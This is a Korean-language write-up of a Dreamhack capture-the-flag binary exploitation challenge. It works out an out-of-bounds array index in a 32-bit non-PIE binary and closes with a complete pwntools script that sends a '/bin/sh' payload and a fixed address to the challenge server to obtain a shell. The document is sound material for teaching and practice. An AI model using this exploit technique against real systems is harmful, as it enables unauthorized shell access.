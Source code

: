 `command`를 기준으로 `name`이 `76` 만큼 떨어져 있는 것을 알 수 있다. 처음에는 `char *`의 크기가 `8bytes`이므로 `76`만큼 떨어져있으면 오프셋으로 딱 나누어지지 않아서 안되는가라는 생각을 했는데 `checksec`으로 확인해보면 해당 바이너리가 `32-bit`이다.\
(참고로, 이번 문제에서 `idx`의 주소는 필요 없긴 하지만 `gcc -g` 옵션을 주지 않으면 바이너리를 gdb로 디버깅 할 때, `print`가 안먹히긴 한다.)

<img width="639" alt="image" src="https://github.com/user-attachments/assets/0133d28a-0e64-4bca-931f-efb04146775f">

따라서, `char *`의 크기가 `4bytes` 이기 때문에 `scanf("%d", &idx);`를 통해 `name[8]`을 가리키는 `(76 + 8) / 4 = 21`, `idx`에 `21`를 입력해주면 쉘을 획득할 수 있음을 알 수 있다.

# Exploit 

주의할 점은 `name`에 `"/bin/sh"`을 입력해줄 때, 오프셋으로 접근하기 위해 8바이트 단위로 끊어야 하기 때문에 `b"/bin/sh"` 7바이트에 `b"\x00"` 1바이트를 추가해줘야 된다.

그리고, `name[0]`의 주소는 해당 바이너리에 `PIE`가 적용되어 있지 않기 때문에 데이터 영역도 랜덤화되지 않아서, 고정 가상 주소를 통해 접근할 수 있기 때문에 위에서 본 `name`의 주소인 `0x804a0ac`를 대입해주면 된다.

```
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 14448)

payload = b"/bin/sh" + b"\x00"  # 8바이트를 맞춰주기 위해 b'\x00'을 추가해줘야함
payload += p32(0x804A0AC) # name의 주소 (system의 인자에는 "/bin/sh" 문자열 자체가 아닌 해당 문자열의 주소가 들어가야함)
p.send(payload)

# &name - &command = 76 이므로, 32-bit에서 char *의 크기인 4byte만큼 index 19차이가 나고, name의 주소는 8byte 뒤에 입력되어 있어서 4byte만큼 2번 더 가야함
idx = 19 + 2
p.sendline(str(idx).encode())  # scanf("%d")에 입력하기 때문
# p.sendline(b'21')             # 그냥 이렇게 써도 됨

p.interactive()
```
